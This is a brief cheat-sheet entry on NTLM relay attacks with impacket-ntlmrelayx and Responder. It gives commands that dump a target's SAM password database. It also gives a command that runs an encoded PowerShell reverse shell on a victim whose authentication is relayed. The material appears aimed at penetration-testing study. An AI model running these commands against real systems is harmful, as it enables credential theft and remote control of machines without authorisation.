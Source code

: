 By default, `ntlmrelayx` dumps the SAM database
```shell-session
$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP>
```
>NOTE: Make sure `SMB = Off` in Responder's config

# Useful Flags
- `-c`: Execute commands

We can get Powershell reverse shell using [https://www.revshells.com](https://www.revshells.com/) (Powershell #3 (Base64)).
```shell-session
$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP> -c 'powershell -e JABj...'
```
Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.